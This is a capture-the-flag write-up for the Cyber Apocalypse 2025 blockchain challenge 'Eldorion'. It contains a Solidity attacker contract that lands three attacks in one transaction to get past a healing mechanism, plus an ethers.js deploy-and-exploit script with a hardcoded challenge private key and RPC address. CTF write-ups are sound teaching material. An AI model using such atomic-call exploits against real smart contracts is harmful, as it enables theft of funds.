 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Eldorion Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: Eldorion
tags: "blockchain, starry, solidity, ethers"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## Eldorion
> Solved by Starry-Lord

![](https://i.imgur.com/VxfRD0j.png)


This Beast was killed with adding a `attacker.sol` contract to bypass the “eternal resilience” function, which kept healing the boss after each attack. So we needed to make a triple attack:


    cat contracts/attack.sol                                                                                        
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface IEldorion {
        function attack(uint256 damage) external;
    }
    
    contract Attacker {
        function attackThree(address target) external {
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
        }
    }

here is the attack script with ethers.js v5 (because I never managed to make this challenge return valid JSON with v6):


    const fs = require("fs");
    const path = require("path");
    const solc = require("solc");
    const { ethers } = require("ethers");
    
    // === Config ===
    const RPC_URL = "http://83.136.253.25:50179";
    const PRIVATE_KEY = "0x0ce0d36d2fb2e0cfc7f413aec7acf865871b6f71f28ffda18cff63ab50a8c59c";
    
    const eldorionAddress = "0x6114F5Aca890BaE0b153de34Cd024ba24C2A3A68";
    const setupAddress    = "0xaed4036993875E6C22E37BC1a12EFB81e89A9222";
    
    const eldorionAbi = [
      "function health() view returns (uint256)",
      "function isDefeated() view returns (bool)"
    ];
    const setupAbi = [
      "function isSolved() view returns (bool)"
    ];
    const attackerAbi = [
      "function attackThree(address target) external"
    ];
    
    // === Setup Provider + Signer ===
    const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
    const signer = new ethers.Wallet(PRIVATE_KEY, provider);
    
    // === Compile Attacker.sol ===
    async function compileAttacker() {
      const filePath = path.join(__dirname, "../contracts/attack.sol");
      const source = fs.readFileSync(filePath, "utf8");
    
      const input = {
        language: "Solidity",
        sources: {
          "attack.sol": { content: source }
        },
        settings: {
          outputSelection: {
            "*": {
              "*": ["abi", "evm.bytecode"]
            }
          }
        }
      };
    
      const output = JSON.parse(solc.compile(JSON.stringify(input)));
    
      // Print compilation errors
      if (output.errors) {
        for (const error of output.errors) {
          console.error(error.formattedMessage);
        }
      }
    
      const contract = output.contracts["attack.sol"]?.["Attacker"];
      if (!contract) {
        throw new Error("❌ Compilation failed: Attacker contract not found.");
      }
    
      return {
        abi: contract.abi,
        bytecode: contract.evm.bytecode.object
      };
    }
    
    // === Main Execution ===
    async function main() {
      console.log("Attacker:", await signer.getAddress());
    
      const { abi, bytecode } = await compileAttacker();
    
      const factory = new ethers.ContractFactory(abi, bytecode, signer);
      const attacker = await factory.deploy();
      await attacker.deployed();
      console.log("🚀 Attacker contract deployed at:", attacker.address);
    
      const tx = await attacker.attackThree(eldorionAddress);
      await tx.wait();
      console.log("⚔ Sent 3 attacks in a single transaction!");
    
      const eldorion = new ethers.Contract(eldorionAddress, eldorionAbi, signer);
      const setup = new ethers.Contract(setupAddress, setupAbi, signer);
    
      const health = await eldorion.health();
      console.log("🧪 Eldorion's Health:", health.toString());
    
      const defeated = await eldorion.isDefeated();
      console.log("💀 Eldorion Defeated?", defeated);
    
      const solved = await setup.isSolved();
      console.log("🏁 Challenge Solved?", solved ? "✅ YES" : "❌ Not yet");
    
      if (solved) {
        console.log("🎉 Go grab your flag!");
      }
    }
    
    main().catch((err) => {
      console.error("💥 Error:", err.message || err);
    });
    
![](https://i.imgur.com/Zmnbjk5.png)

